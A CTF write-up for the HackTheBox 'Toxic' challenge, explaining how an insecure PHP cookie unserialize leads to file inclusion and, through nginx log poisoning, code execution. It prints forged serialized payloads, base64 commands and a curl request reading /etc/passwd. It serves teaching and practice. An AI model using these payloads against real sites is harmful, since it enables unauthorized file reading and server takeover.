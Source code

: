 ```yaml
---
title: Toxic HackTheBox Challenge
published: ture
tags: [htb, php, logfile poisoning, ctf, include, base64, serialize, unserialize, cookie, ]
---
```


# Toxic

given a website with following code: 
```php 
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );

    

} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

If no cookie is set it serializes the current page object and saves it base64 encoded as a cookie. However if the request already contains a cookie it tries to unserialize it which could be exploited. 
The serialized cookie looks like the following: 
```
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}%
```

> note that all the `s:` represents the size of all the following strings and should be modified if the strings changes

The `PageModel` has an attribute `file` which is `include`d.
```php
<?php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

So if we can modify the `file` attribute which gets unserialized get have a chance that this file gets presented. 

As a little proof of concept we can try to load the `/etc/passwd` file. 
Therefore we have to modify the serialized object like the following: 
```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}%
```

> note the size again

Now we have to base64 encode this object again. 

```
echo 'O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}%' | base64
```

Now send a request to the site with the crafted cookie:

```bash
curl localhost:1337/index.php --cookie "PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30lCg=="
```

We get the `passwd` file back :D

The problem now is, that the flag gets randomized like the following:

```bash
# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`
```

So it is impossible to predict the file name. Also it is not possible to get the contents of the directory with the `include` function. 

But whats possible instead is to poison the logfile and display it. Since the `include` function tries to display all files like php files and tries to execute php code in it we can simply make a request with php code as user agent and the code gets written to the log file. 
To keep it simple I just execute a `ls /` to print all contents of the root directory. 
![BurpSuite Request](../assets/Toxic-Burp-Request.png "BurpSuite Request")

We also know where the log file is because of the provided `nginx.conf`
When we now modify the object to load the logfile `/var/log/nginx/access.log`
```
echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}%' | base64
```
It includes the logfile and executes the code we send in the step before. 

We get presented the acutal filename of the flag and can read the flag again with the modified object which gets unserialized. 
